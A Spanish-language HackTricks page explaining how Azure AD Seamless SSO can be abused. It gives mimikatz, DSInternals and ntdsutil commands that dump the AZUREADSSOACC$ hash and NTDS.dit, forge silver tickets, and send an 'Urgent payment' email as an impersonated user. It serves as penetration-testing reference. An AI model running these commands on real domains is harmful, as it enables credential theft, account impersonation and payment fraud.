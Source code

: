 # Az - SSO Sin Problemas

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información Básica

Azure Active Directory SSO Sin Problemas (Azure AD Seamless SSO) **inicia sesión automáticamente a los usuarios cuando están en sus dispositivos corporativos** conectados a la red corporativa. Cuando está habilitado, **los usuarios no necesitan escribir sus contraseñas para iniciar sesión en Azure AD**, y usualmente, ni siquiera sus nombres de usuario. Esta característica proporciona a tus usuarios un acceso fácil a tus aplicaciones basadas en la nube sin necesidad de componentes adicionales en las instalaciones.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Básicamente Azure AD Seamless SSO **inicia sesión a los usuarios** cuando están **en una PC unida al dominio en las instalaciones**.

Es compatible tanto con [**PHS (Sincronización de Hash de Contraseña)**](phs-password-hash-sync.md) como con [**PTA (Autenticación de Paso a Través)**](pta-pass-through-authentication.md).

El SSO de escritorio utiliza **Kerberos** para la autenticación. Cuando se configura, Azure AD Connect crea una **cuenta de computadora llamada AZUREADSSOACC`$`** en AD en las instalaciones. La contraseña de la cuenta `AZUREADSSOACC$` se **envía en texto plano a Azure AD** durante la configuración.

Los **tickets de Kerberos** están **cifrados** usando el **NTHash (MD4)** de la contraseña y Azure AD utiliza la contraseña enviada para descifrar los tickets.

**Azure AD** expone un **punto final** (https://autologon.microsoftazuread-sso.com) que acepta **tickets** de Kerberos. El navegador de la máquina unida al dominio reenvía los tickets a este punto final para SSO.

### De las instalaciones -> nube

La **contraseña** del usuario **`AZUREADSSOACC$` nunca cambia**. Por lo tanto, un administrador de dominio podría comprometer el **hash de esta cuenta**, y luego usarlo para **crear tickets de plata** para conectarse a Azure con **cualquier usuario en las instalaciones sincronizado**:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Con el hash ahora puedes **generar silver tickets**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Para usar el silver ticket:

1. Inicie _Mozilla Firefox_.
2. Vaya a **`about:config`** y configure la preferencia [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) al [valor](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) `https://aadg.windows.net.nsatc.net,https://autologon.microsoftazuread-sso.com`
3. Navegue a cualquier aplicación web que esté integrada con nuestro dominio AAD. Usaremos [Office 365](https://portal.office.com/), que es la más común.
4. Una vez en la pantalla de inicio de sesión, complete el nombre de usuario, dejando el campo de contraseña vacío. Luego presione TAB o ENTER.

<figure><img src="../../../../.gitbook/assets/image (3) (3) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Esto no evita MFA si está habilitado
{% endhint %}

#### ~~Creación de tickets Kerberos para usuarios solo en la nube~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Si los administradores de Active Directory tienen acceso a Azure AD Connect, pueden **establecer SID para cualquier usuario en la nube**. De esta manera, los **tickets** Kerberos también pueden ser **creados para usuarios solo en la nube**. El único requisito es que el SID sea un [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) adecuado.

{% hint style="danger" %}
Cambiar el SID de usuarios administradores solo en la nube ahora está **bloqueado por Microsoft**.\
Para más información consulte [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### De on-prem a Cloud vía Resource Based Constrained Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Cualquiera que pueda gestionar cuentas de computadora (`AZUREADSSOACC$`) en el contenedor o OU donde se encuentra esta cuenta, puede **configurar una delegación restringida basada en recursos sobre la cuenta y acceder a ella**.

<figure><img src="../../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

## Referencias

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
